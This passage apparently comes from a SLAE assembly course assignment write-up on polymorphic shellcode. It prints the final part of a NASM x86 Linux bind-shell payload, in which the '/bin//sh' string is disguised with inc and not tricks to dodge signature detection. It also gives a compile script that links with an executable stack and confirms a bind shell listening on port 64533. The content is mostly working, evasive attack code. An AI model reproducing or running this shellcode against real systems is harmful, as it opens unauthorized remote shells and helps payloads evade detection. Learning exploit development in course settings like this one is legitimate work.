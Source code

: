 ````
	mov    ebx,eax
	push   0x2
        pop    ecx
dup_loop:
	push   0x3f
	pop    eax
	dec    ecx
	int    0x80
	jne    dup_loop
;launching the shell on the socket
	push   ecx            ;pushes null terminator
	mov    esi,0x68732f2e 
	inc    esi            ;esi is 0x68732f2f which means "hs//"
	push   esi
        mov    esi,0x91969DD0
        not    esi            ;esi is 0x6e69622f which means "nib/"
	push   esi
	mov    ebx,esp
	push   edx
	mov    al,0xb
	int    0x80
````
``Code for poly_shellcode_672.nasm``

Then, it is necessary to compile the file using the following bash script.
````
#!/bin/bash
#Example of execution: ./compile.sh poly_shellcode_672

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

After that, it is possible to execute the shellcode and verify that there is a bind shell on port 64533.

![](../Images/08_slae_assignment_6.png)

